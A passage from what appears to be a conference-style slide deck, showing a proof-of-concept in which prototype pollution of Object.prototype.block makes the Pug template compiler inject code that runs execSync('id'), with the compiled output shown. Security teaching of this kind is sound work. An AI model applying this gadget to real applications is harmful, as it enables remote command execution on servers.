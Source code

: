 </v-clicks>

---

#### Pug RCE Exploit

```js {*}{lines:true}
const pug = require("pug");

Object.prototype.block = {
  type: "Text",
  line: "console.log(process.mainModule.require('child_process').execSync('id').toString())",
};

const source = `h1= msg`;

var fn = pug.compile(source, {});
console.log(fn.toString());
```

```js {hide|9-19}{lines:true, maxHeight:'50%'}
function template(locals) {
  var pug_html = "",
    pug_mixins = {},
    pug_interp;
  var pug_debug_filename, pug_debug_line;
  try {
    var locals_for_with = locals || {};

    (function (console, msg, process) {
      pug_debug_line = 1;
      pug_html = pug_html + "\u003Ch1\u003E";
      pug_debug_line = 1;
      pug_html =
        pug_html + pug.escape(null == (pug_interp = msg) ? "" : pug_interp);
      pug_debug_line = console.log(
        process.mainModule.require("child_process").execSync("id").toString(),
      );
      pug_html = pug_html + "ndefine\u003C\u002Fh1\u003E";
    }).call(
      this,
      "console" in locals_for_with
        ? locals_for_with.console
        : typeof console !== "undefined"
          ? console
          : undefined,
      "msg" in locals_for_with
        ? locals_for_with.msg
        : typeof msg !== "undefined"
          ? msg
          : undefined,
      "process" in locals_for_with
        ? locals_for_with.process
        : typeof process !== "undefined"
          ? process
          : undefined,
    );
  } catch (err) {
    pug.rethrow(err, pug_debug_filename, pug_debug_line);
  }
  return pug_html;
}
```

---